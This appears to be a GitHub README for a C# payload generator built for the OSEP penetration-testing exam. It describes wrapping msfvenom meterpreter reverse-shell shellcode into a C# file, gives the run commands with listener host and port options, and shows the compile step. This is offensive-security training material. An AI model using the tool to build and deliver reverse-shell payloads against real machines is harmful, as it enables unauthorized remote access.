 # Swagrunna
Csharp payload generator used to streamline OSEP exam. The current `payload.cs` does NOT get past modern Windows Defender due to the nature of how it injects.

## How it works
It generates shellcode using msfvenom, encodes it with encoder.exe then sandwiches it between `head.cs` and `tail.cs` creating `payload.cs`

# Dependencies
mono
msfvenom

# How to change
Essentially `head.cs` is pre-shell code and `tail.cs` is just post-shell code. You can combine them and modify it or just write your own Csharp code and split it up accordingly.
Right now the encode.exe takes in shell.txt, encodes the contents and spits out encoded shell code with the variable `buf`

# How to use
Swagrunna will automatically look for tun0 to decide LHOST. By default LPORT is 443 and the payload is set to `windows/x64/meterpreter/reverse_http`

Run with defaults
```
./swagrunna.sh
```

Run without defaults
```
./swagrunna.sh -i 1.2.3.4 -p 4444 -x windows/x86/meterpreter/reverse_tcp
```

This will drop payload.cs in the local directory

# How to compile payload.cs
Since swagrunna comes with an uninstall function the following references must be included:
```
System.Configuration.Install.dll
System.Management.Automation.dll
```

I have yet to figure out how to compile this on linux, so I compile it on a windows VM.

The current command I run is:
```
C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\Roslyn\csc.exe /reference:C:\Windows\Microsoft.NET\Framework\v4.0.30319\System.Configuration.Install.dll /reference:C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll C:\PATH\TO\payload.cs
```

This process could be streamlined with a little more time investment!
